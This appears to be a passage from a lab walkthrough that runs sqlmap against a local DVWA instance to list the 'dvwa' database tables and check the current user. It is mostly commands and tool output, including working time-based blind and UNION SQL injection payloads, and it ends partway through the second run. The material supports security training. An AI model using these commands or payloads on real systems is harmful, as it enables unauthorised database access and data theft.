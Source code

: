     sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --tables

The result is a listing of the database tables.
 
    [*] starting @ 17:40:39 /2022-11-17/

    [17:40:39] [INFO] resuming back-end DBMS 'mysql' 
    [17:40:39] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:40:39] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: PHP 5.2.4, Apache 2.2.8
    back-end DBMS: MySQL >= 5.0.12
    [17:40:39] [INFO] fetching tables for database: 'dvwa'
    Database: dvwa
    [2 tables]
    +-----------+
    | guestbook |
    | users     |
    +-----------+

    [17:40:39] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:40:39 /2022-11-17/

Check current user:

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" --current-user

Which shows:

    [*] starting @ 17:43:30 /2022-11-17/

    [17:43:30] [INFO] resuming back-end DBMS 'mysql' 
    [17:43:30] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit
